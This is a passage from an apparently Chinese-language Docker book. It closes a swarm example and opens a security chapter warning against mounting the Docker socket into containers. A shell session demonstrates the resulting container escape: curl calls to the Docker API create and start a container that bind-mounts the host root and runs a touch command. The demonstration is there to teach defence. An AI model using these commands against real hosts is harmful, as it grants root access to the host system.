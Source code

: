 ```
Removing network queue_stack_service_network

$ docker swarm leave --force
Node left the swarm.
```

在这一点上，我们可以添加任意数量的发送者和监听者（在合理范围内），我们的系统将以非常异步的方式正常工作，从而增加两端的吞吐量。不过，作为提醒，如果你决定走这条路，强烈建议使用另一种队列类型（如 Kafka、SQS 等），但基本原则基本上是相同的。

# 高级安全

我们在之前的章节中已经涵盖了一些安全问题，但对于一些似乎经常被忽视的问题，我们需要更深入地讨论它们，而不仅仅是在文本中间的小信息框中看到它们，并了解为什么当不正确使用时它们会成为如此严重的问题。虽然在实施我们在各种警告和信息框中指出的所有事情可能会显得很费力，但是你提供给潜在入侵者的攻击面越小，从长远来看你就会越好。也就是说，除非你正在为政府机构部署这个系统，我预计会有一些妥协，但我敦促你强烈权衡每个方面的利弊，否则你就有可能会收到那个可怕的午夜电话，通知你发生了入侵。

具有讽刺意味的是，加固系统通常需要花费大量时间来开发和部署，以至于它们往往在投入生产环境时已经过时或提供的业务价值较小，并且由于它们精心组装的部件，它们很少（如果有的话）会更新为新功能，迅速应用补丁，或对源代码进行改进，因此它真的是一把双刃剑。没有*完美的解决方案，只有一系列你在某种程度上感到舒适的事情。从历史上看，我大多数情况下看到的是在两个极端之间的可怕执行，所以我在这里的建议是，如果可能的话，你应该寻求两者的结合。

# 将 Docker 套接字挂载到容器中

这绝对是开发人员在部署容器化解决方案时完全忽视的最严重的安全漏洞。对于与容器管理相关的各种事情，通常在互联网上的建议都倾向于将 Docker 套接字（`/var/run/docker.sock`）绑定到容器中，但很少提到的是这样做实际上会有效地将主机的根级访问权限赋予这样的容器。由于 Docker 的套接字实际上只是一个 API 端点，而 Docker 守护程序以 root 身份运行，容器可以通过在其上挂载主机系统文件夹并在其上执行任意命令来简单地逃离其封闭环境。

有关使用 Docker 套接字作为 RESTful 端点的更多信息，您可以查看源代码，或者通过 Docker Engine API 的文档进行探索[`docs.docker.com/engine/api/v1.31/`](https://docs.docker.com/engine/api/v1.31/)。通常，您只需要通过诸如`curl`之类的工具添加`--unix-socket <socket_path>`，并且对于`POST`请求，可以选择添加`-H "Content-Type: application/json"`。

Docker 一直在努力将其服务从根级别转变为用户空间级别，但到目前为止，这个功能还没有以任何实际的方式实现。尽管我个人对这种情况很怀疑，但请留意这个功能，因为在某个时候它可能会真正发布并成为一个可用的功能，这将是容器安全性的重大进步。

```
$ Start a "benign" container with the Docker socket mounted and run Bash
$ docker run --rm \
 -it \
 -v /var/run/docker.sock:/var/run/docker.sock \
 ubuntu /bin/bash 

root@686212135a17:/# # Sanity check - make sure that the socket is there
root@686212135a17:/# ls -la /var/run/docker.sock
srw-rw---- 1 root 136 0 Sep 20 05:03 /var/run/docker.sock

root@686212135a17:/# # Install curl but almost any other HTTP client will work
root@686212135a17:/# # Even a base Python can do this but curl is fine for brevity
root@686212135a17:/# apt-get update && apt-get install -y curl
<snip>
done

root@686212135a17:/# # Create a container through the socket and bind-mount root to it
root@686212135a17:/# # with a "malicious" touch command to run
root@686212135a17:/# curl -s \
 --unix-socket /var/run/docker.sock \
 -H "Content-Type: application/json" \
 -d '{"Image": "ubuntu", "Cmd": ["touch", "/mnt/security_breach"], "Mounts": [{"Type": "bind", "Source": "/", "Target":"/mnt", "RW": true}]}' \
 -X POST \
 http:/v1.29/containers/create 
{"Id":"894c4838931767462173678aacc51c3bb98f4dffe15eaf167782513305c72558","Warnings":null}

root@686212135a17:/# # Start our escaped container
root@686212135a17:/# curl --unix-socket /var/run/docker.sock \
 -X POST \
 http:/v1.29/containers/894c4838/start
```